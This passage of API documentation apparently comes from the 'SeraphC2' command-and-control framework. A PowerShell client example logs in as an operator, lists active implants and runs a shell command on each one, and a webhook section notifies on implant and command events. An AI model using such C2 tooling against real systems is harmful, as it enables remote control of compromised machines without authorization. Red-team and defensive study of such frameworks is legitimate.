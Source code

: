 ```powershell
    [hashtable] ExecuteCommand([string]$ImplantId, [string]$Type, [string]$Payload) {
        $body = @{
            implantId = $ImplantId
            type = $Type
            payload = $Payload
            timeout = 30
        } | ConvertTo-Json
        
        $response = Invoke-RestMethod -Uri "$($this.BaseUrl)/api/commands" -Method Post -Body $body -Headers $this.Headers
        return $response.data
    }
}

# Usage example
$client = [SeraphC2Client]::new("https://api.seraphc2.com")

try {
    # Login
    $operator = $client.Login("username", "password")
    Write-Host "Logged in as: $($operator.username)"
    
    # Get implants
    $implants = $client.GetImplants(@{status = "active"})
    Write-Host "Found $($implants.Count) active implants"
    
    # Execute command on each implant
    foreach ($implant in $implants) {
        Write-Host "Executing command on $($implant.hostname)..."
        $command = $client.ExecuteCommand($implant.id, "shell", "whoami")
        Write-Host "Command ID: $($command.id)"
    }
    
} catch {
    Write-Error "Error: $($_.Exception.Message)"
}
```

## Webhooks

SeraphC2 supports webhooks for real-time event notifications.

### Webhook Configuration

```http
POST /api/webhooks
Authorization: Bearer token
```

**Request:**
```json
{
  "name": "Slack Notifications",
  "url": "https://hooks.slack.com/services/...",
  "events": [
    "implant.connected",
    "implant.disconnected",
    "command.executed",
    "alert.triggered"
  ],
  "headers": {
    "Content-Type": "application/json",
    "X-Custom-Header": "value"
  },
```